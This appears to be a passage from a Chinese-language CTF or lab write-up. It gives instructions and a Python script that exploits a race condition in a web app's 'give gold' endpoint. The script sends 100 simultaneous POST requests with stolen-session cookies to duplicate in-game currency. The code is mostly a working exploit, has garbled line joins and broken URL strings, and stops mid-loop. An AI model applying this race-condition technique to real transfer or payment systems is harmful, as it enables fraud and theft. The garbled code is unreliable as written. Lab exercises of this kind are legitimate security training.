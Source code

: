 > ****脚本使用说明:****
> 
> **1.确保在网站上创建了两个独立的帐户，并且在下面的脚本中指定了凭据。**
> 
> **2.确保两个用户的帐户中至少有一枚金牌。**
> 
> **注意:确保 IP 地址设置正确。此外，每次用户登录或退出时，cookie 都会发生变化，这由下面的脚本处理。**

**这个脚本可能需要几分钟的时间来运行，但最终会给我们提供购买高级功能所需的黄金。**

```
#!/usr/bin/env pythonimport grequests
import requests
from bs4 import BeautifulSoup# Websites IP Address for your room.
ip_address = "10.10.133.7"# Credentials for First Account created.
user_1 = "John"
pass_1 = "password"# Credentials for Second Account created.
user_2 = "Bob"
pass_2 = "password"# Retrieve users cookie and current amount of gold.
def userGoldAndCookie(username, password):
 # Details to be posted to the login form.
 payload = {
 'username': username,
 'password': password
 }
    # Retrieve Gold Amount and Cookie for the specified user.
 with requests.Session() as s:
  # Login as the specified user.
  p = s.post('[http://{}/api/login'.format(ip_address),](http://{}/api/login'.format(ip_address),) data=payload)
  # Get the amount of gold for the specified user.
  gold_amount = 0
  soup = BeautifulSoup(p.text, "html.parser")
  for tag in soup.find_all('a'):
   if "Gold:" in tag.text:
    gold_amount = int(str(tag.text).split(":", 1)[1].strip())
    print("Current Gold Amount for User {}: {}".format(username, gold_amount))# Get the new cookie generated for the user.
  cookie_dict = s.cookies.get_dict()
  return cookie_dict['connect.sid'], gold_amount# Function is used to send gold to a user.
def sendGold(user, cookie, amount):
 print("Sending {} gold to user {}".format(amount, user))
 # Websites URL used to give gold to another user.
 url = '[http://{}/api/givegold'.format(ip_address)](http://{}/api/givegold'.format(ip_address))# Network POST Request Headers
 headers = {
 "Host" : "{}".format(ip_address),
 "Referer" : "[http://{}/giving.html](http://{}/giving.html)".format(ip_address),
 "Content-Type" : "application/x-www-form-urlencoded",
 "Connection" : "close",
 "Cookie" : "connect.sid={}".format(cookie),
 "Upgrade-Insecure-Requests" : "1"
 }

    # The cookie of the user sending the gold
 cookies = {
 "connect.sid" : cookie
 }# N.B. Need to use data instead of params for a POST Request
 # This will send multiple POST requests, giving John 1000 gold in each POST request.
 data = "user={}&amount={}".format(user,amount)# Send asynchronous post requests
 rs = (grequests.post(url, data=data, cookies=cookies, headers=headers) for i in range(0,100))
 requests = grequests.map(rs)
 print("{} gold has been sent to user {}!".format(amount, user))gold_needed = 0
counter = 1while gold_needed < 10000:
 if counter % 2 == 0:
```